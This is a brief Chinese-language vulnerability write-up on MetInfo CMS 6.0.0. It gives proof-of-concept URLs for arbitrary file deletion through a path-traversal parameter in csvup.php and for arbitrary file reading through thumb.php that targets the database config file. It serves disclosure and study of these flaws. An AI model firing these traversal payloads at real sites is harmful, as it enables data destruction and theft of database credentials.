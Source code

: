 ﻿
## Affected Version  

 **Metinfo 6.0.0**

## POC 

### 1 CMS安装的时候，比如数据库名字会被直接写进配置文件中。

### 2 任意删除

好像需要登陆后，才能执行成功。 admin目录下。

    192.168.0.4/metinfo600/admin/app/batch/csvup.php?fileField=test-1&flienamecsv=../../../config/test.txt

### 3  任意文件读取

![](http://opmi2ydgh.bkt.clouddn.com//18-9-12/44499643.jpg)

    metinfo600/include/thumb.php?dir=http\..\..\config\config_db.php

## References

[Metinfo 6.0.0 众多漏洞分析](https://www.anquanke.com/post/id/154149)

[ MetInfo 任意文件读取漏洞的修复与绕过](https://paper.seebug.org/676/)







